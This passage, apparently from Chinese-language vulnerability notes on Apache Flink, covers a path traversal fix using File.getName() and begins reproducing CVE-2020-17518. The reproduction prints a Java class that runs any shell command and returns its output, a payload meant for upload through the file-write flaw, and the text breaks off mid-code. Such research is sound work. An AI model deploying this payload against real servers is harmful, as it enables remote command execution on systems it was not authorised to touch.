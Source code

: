 在调用getFile前，看到其中的handlerRequest里面的pathParameters是从routedRequest中取出的pathParams

![image-20230926120047231](images/15.png)

## 漏洞修复

![image-20230926123244967](images/16.png)

采用的是File.getName()进行修复的

# CVE-2020-17518 

Apache Flink 任意文件写入漏洞配合命令执行

## 漏洞复现

```
import java.io.InputStream;
import java.util.Scanner;

public class Execute {
    public static void main(String[] args) throws Exception {
    	String cmd = args[0];
        try {
            if (cmd != null) {
                boolean isLinux = true;
                String osType = System.getProperty("os.name");
                if (osType != null && osType.toLowerCase().contains("win")) {
                    isLinux = false;
                }

                String[] command = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                Scanner scanner = new Scanner(inputStream).useDelimiter("DawnT0wn");
                String output = scanner.hasNext() ? "\n" + scanner.next() : "";
                throw new Exception((output));
```